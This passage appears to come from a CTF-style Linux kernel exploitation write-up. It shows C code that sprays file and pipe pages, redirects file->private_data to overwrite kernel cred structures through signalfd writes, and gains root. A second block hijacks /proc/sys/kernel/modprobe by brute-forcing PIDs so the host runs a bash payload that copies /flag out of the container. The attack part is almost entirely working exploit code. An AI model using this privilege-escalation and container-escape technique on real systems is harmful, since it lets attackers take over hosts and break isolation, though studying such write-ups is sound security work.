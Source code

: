 ```c
uint64_t num_writes = 48 / sizeof(uint16_t) + 1;
uint64_t file_chunk_size = 0x100;
uint64_t num_files_per_page = PAGE_SIZE / file_chunk_size; // 16

for (int i = 0; i < num_writes; i++) {
	for (int j = 0; j < num_files_per_page; j++) {
		uint64_t file_object_offset = file_chunk_size * j / sizeof(uint64_t);
		uint64_t file_cred_offset = cred_offset / sizeof(uint64_t);
		uint64_t file_private_data_offset = FILE_PRIVATE_DATA_OFFSET / sizeof(uint64_t);

		// file->private_data = file->f_cred
		cred = page[file_object_offset +  file_cred_offset];
		page[file_object_offset + file_private_data_offset] = cred + 48 - i * sizeof(uint16_t);

		// Overwrite the entire page with the malicious one
		write(evil_fifo, buff, PAGE_SIZE);
		// Read the page to reset pipe buffer len to 0 and reuse the same page
		read(evil_fifo, buff, PAGE_SIZE);

		// Arb write
		for (int k = 0; k < NUM_SIGNALFD_FILES; k++)
			alloc_signalfd(sig_fd[k]);
	}
}
```

At this point we are root! To escape from the container we modify `/proc/sys/kernel/modprobe`. 

Since we don't know the PID of the current process in the root namespace, we bruteforce it. For each iteration, we set the modprobe path to `"/proc/<i>/root/tmp/evil"`, and trigger modprobe. When the attacking task PID is found, the kernel will execute our malicious payload, and the flag will be copied to the memfd file descriptor of the task:

```c
#define MODPROBE_PAYLOAD \
    "#!/bin/bash\n" \
    "pid=$(echo \"$0\" | sed -E 's|/proc/([0-9]+)/.*|\\1|')\n" \
    "cat /flag > /proc/$pid/fd/696\n"

// ...

int modeprobe_exec(void) {
	// ...
	for (int pid = MODPROBE_MIN_PID; pid < MODPROBE_MAX_PID; pid++) {
        snprintf(evil_path, sizeof(evil_path), "/proc/%d/root/tmp/evil", pid);
        write_file(MODPROBE_PATH, evil_path, strlen(evil_path));

        execve("/tmp/trigger", NULL, NULL);
        fstat(696, &st);

        if (st.st_size > 0) {
            puts("pwned");
            read(696, flag, st.st_size);
            printf("%s\n", flag);
            sleep(1);
            exit(0);
        }
    }
    return 0;
}
```
